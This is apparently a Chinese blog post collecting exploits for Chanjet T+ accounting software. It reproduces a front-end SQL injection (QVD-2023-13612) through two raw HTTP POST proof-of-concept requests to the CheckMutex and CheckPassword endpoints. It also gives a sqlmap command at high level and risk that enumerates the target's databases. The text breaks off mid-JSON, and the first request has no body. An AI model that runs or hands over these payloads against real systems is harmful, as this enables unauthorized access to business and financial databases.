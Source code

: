 #  畅捷通漏洞大全集合   
原创 丁永博  丁永博的成长日记   2024-03-15 18:43  
  
**一、 前台SQL注入漏洞复现（QVD-2023-13612）**  
  
chanjet-tplus-checkmutex-sqli  
  
POC1：  
```
POST /tplus/ajaxpro/Ufida.T.SM.UIP.MultiCompanyController,Ufida.T.SM.UIP.ashx?method=CheckMutex HTTP/1.1
Host: XXXXXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ASP.NET_SessionId=z4uf2zxaxzzew254iwju3fvn
Content-Length: 253
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vfnOYb9lyqqcHpPfYH832aWPof4MVUNHg9CatKtXl7eCIpMYI5qVBlI7icBRJes7NReWaWdt0kkUzI9yx6CXp9g/640?wx_fmt=png&from=appmsg "")  
```
python sqlmap.py -r url.txt --level 3 --risk 3 --dbs
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vfnOYb9lyqqcHpPfYH832aWPof4MVUNH6QgCx4IrCoVjmWSSejJq1sYdpCozyXUpLJAHSJVXKibDtgQde5Oib3icg/640?wx_fmt=png "")  
  
chanjet-tplus-ufida-sqli  
  
POC2:  
```
POST /tplus/ajaxpro/Ufida.T.SM.Login.UIP.LoginManager,Ufida.T.SM.Login.UIP.ashx?method=CheckPassword HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8
Cache-Control: no-cache
Connection: keep-alive
Content-Length: 346
Content-Type: application/json
Host: 127.0.0.1
Origin: http://127.0.0.1
Pragma: no-cache
Referer: http://127.0.0.1/tplus/ajaxpro/Ufida.T.SM.Login.UIP.LoginManager,Ufida.T.SM.Login.UIP.ashx?method=CheckPassword
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36

{
  "AccountNum":"*",
  "UserName":"admin",
  "Password":"e10adc3949ba59abbe56e057f20f883e",
  "rdpYear":"2022",
  "rdpMonth":"2",
  "rdpDate":"21",
  "webServiceProcessID":"admin",
  "ali_csessionid":"",
  "ali_sig":"",
  "ali_token":"",
  "ali_scene":"",
  "role":"",
  "aqdKey":"",
```